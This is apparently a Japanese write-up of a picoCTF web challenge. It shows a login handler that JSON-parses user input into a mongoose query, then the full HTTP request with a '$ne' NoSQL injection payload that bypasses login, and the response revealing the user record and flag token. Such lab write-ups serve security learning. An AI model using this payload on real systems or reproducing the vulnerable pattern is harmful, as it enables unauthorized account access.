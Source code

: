 ```yaml
---
title: "No Sql Injection"
points: 200
tags: ["web"]
---
```


ログインページが表示される。渡されたコードをざざっと眺めてみると、ログインをバイパスしてadmin画面に行ければ良いという方針が立つ。

ログイン処理のコードは以下の通り。

```ts
import User from "@/models/user";
import { connectToDB } from "@/utils/database";
import { seedUsers } from "@/utils/seed";

export const POST = async (req: any) => {
  const { email, password } = await req.json();
  try {
    await connectToDB();
    await seedUsers();
    const users = await User.find({
      email: email.startsWith("{") && email.endsWith("}") ? JSON.parse(email) : email,
      password: password.startsWith("{") && password.endsWith("}") ? JSON.parse(password) : password
    });

    if (users.length < 1)
      return new Response("Invalid email or password", { status: 401 });
    else {
      return new Response(JSON.stringify(users), { status: 200 });
    }
  } catch (error) {
    return new Response("Internal Server Error", { status: 500 });
  }
};
```

`{` で始まって `}` で終わる場合には、`JSON.parse` した結果が渡されることがわかる。

./modelsディレクトリを眺めてみると、`mongoose` というライブラリを使っていることがわかる。

ドキュメントを眺めてみると、何かしら条件式が渡せそうなことに気づく。

- https://mongoosejs.com/docs/api/model.html#Model.find()

ドキュメントを見ながら以下のようなペイロードを送ってみる。

```
POST /api/login HTTP/1.1
Host: atlas.picoctf.net:63191
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://atlas.picoctf.net:63191
Referer: http://atlas.picoctf.net:63191/
Accept-Encoding: gzip, deflate
Accept-Language: ja-JP,ja;q=0.9
Content-Length: 50

{"email":"{\"$ne\": 0}","password":"{\"$ne\": 0}"}
```

レスポンスはこんな感じで、帰ってきたtokenをbase64でデコードしたら終わり。

```
HTTP/1.1 200 OK
vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Accept-Encoding
content-type: text/plain;charset=UTF-8
date: Thu, 28 Mar 2024 19:16:52 GMT
connection: close
Content-Length: 237

[{
    "_id": "65f08c7b410684fbd599d448",
    "email": "joshiriya355@mumbama.com",
    "firstName": "Josh",
    "lastName": "Iriya",
    "password": "Je80T8M7sUA",
    "token": "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uXzUzZDkwZTI4fQ==",
    "__v": 0
}]
```